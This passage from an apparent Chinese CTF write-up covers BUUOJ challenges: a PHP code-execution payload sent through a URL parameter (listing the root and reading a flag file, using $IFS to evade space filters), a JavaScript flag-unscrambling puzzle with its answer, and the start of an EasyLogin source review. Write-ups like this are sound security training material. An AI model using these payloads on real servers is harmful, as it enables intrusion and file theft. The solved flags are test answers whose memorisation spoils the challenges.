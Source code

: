 简单代码执行, payload 如下

```
http://72a9085b-f56b-4fb4-b464-5c88c8f806af.node4.buuoj.cn:81/?action=upload&data=<?=`ls\$IFS\$9/`?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191037089.png)

查看 flag

```
http://72a9085b-f56b-4fb4-b464-5c88c8f806af.node4.buuoj.cn:81/?action=upload&data=<?=`cat</flllllll1112222222lag`?>
```

## [b01lers2020]Welcome to Earth

跟着源代码一直走

```javascript
// Run to scramble original flag
//console.log(scramble(flag, action));
function scramble(flag, key) {
  for (var i = 0; i < key.length; i++) {
    let n = key.charCodeAt(i) % flag.length;
    let temp = flag[i];
    flag[i] = flag[n];
    flag[n] = temp;
  }
  return flag;
}

function check_action() {
  var action = document.getElementById("action").value;
  var flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"];

  // TODO: unscramble function
}
```

随便拼接一下

```
pctf{hey_boys_im_baaaaaaaaaack!}
```

## [HFCTF2020]EasyLogin

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191503529.png)

右键查看源代码, 发现 app.js

```javascript
/**
 *  或许该用 koa-static 来处理静态文件
 *  路径该怎么配置？不管了先填个根目录XD
 */

function login() {
    const username = $("#username").val();
    const password = $("#password").val();
    const token = sessionStorage.getItem("token");
    $.post("/api/login", {username, password, authorization:token})
        .done(function(data) {
            const {status} = data;
            if(status) {
                document.location = "/home";
```